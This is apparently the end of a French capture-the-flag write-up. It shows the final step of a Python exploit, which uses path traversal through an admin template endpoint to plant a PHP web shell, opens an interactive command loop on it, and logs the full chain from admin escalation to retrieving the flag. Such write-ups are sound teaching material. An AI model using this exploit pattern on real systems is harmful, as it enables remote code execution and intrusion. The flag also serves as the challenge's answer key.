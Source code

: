 ```py
# Step 6 - Trigger arbitrary write in previous created file
S.post(f"{chall_url}/admin/logs/template", data={"_token": get_csrf_token("form"), "template": payload, "file": f"../../../../../../../../{folder_base}{file_rce}"}, cookies=S.cookies.get_dict())

if("www-data" in S.get(f"{chall_url}/pdf/exploit/exploit.php?c=whoami", cookies=S.cookies.get_dict()).text):
    print(f"[+] RCE: done\nShell at: {chall_url}/pdf/exploit/exploit.php\nDropping shell...")
    while 1:
        cmd = input("linux> ")
        print(S.get(f"{chall_url}/pdf/exploit/exploit.php?c={cmd}", cookies=S.cookies.get_dict()).text.split('"')[1].split('"')[0])
else:
    print("[-] RCE: failed...")
    sys.exit(-1)
```

On exécute l'exploit, et on récupère le flag !

```bash
$ python3 exploit.py "http://localhost"                                                                                                                                                                         0 [23:31:59]
[+] Privesc to admin: done
[+] Arbitrary folder creation with 777 mode: done
[+] Arbitrary file creation (exploit.php): done
[+] Arbitrary file creation (.htaccess): done
[+] Override created .htaccess file : done
[+] RCE: done
Shell at: http://localhost/pdf/exploit/exploit.php
Dropping shell...
linux> /getflag
BZHCTF{cust0m_g4dg3t_ch41n_1s_fun_!!}
```


## Flag

BZHCTF{cust0m_g4dg3t_ch41n_1s_fun_!!}